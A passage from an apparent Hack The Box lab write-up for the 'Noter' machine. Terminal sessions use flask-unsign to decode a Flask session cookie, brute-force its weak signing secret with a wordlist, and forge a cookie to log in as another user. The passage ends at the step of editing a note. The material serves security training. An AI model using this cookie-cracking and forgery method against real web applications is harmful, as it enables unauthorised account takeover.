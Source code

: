 **Decode the cookie.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/noter]
└─$ flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZ2VtcyJ9.YxbpxQ.Q5UcakqxCPP3pg8bBEzdrwl0zgc'
{'logged_in': True, 'username': 'gems'}
```
**Brute force the secrete found in cookie.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/noter]
└─$ flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZ2VtcyJ9.YxbpxQ.Q5UcakqxCPP3pg8bBEzdrwl0zgc' --no-literal-eval                                                    1 ⨯
[*] Session decodes to: {'logged_in': True, 'username': 'gems'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
```
**Sign new cookie by using name blue**
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/noter]
└─$ flask-unsign --sign --cookie "{'logged_in': True, 'username' :'blue'}" --secret secret123
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yxc8bw.C-YhDDgLnjr7P0CAWt91XmvyZDg
```
### Login as user Blue.
Provide the cookies for user `blue` refresh the site and then click dashboard.

![image](/assets/img/noter/09blue.png)

Click on edit note.
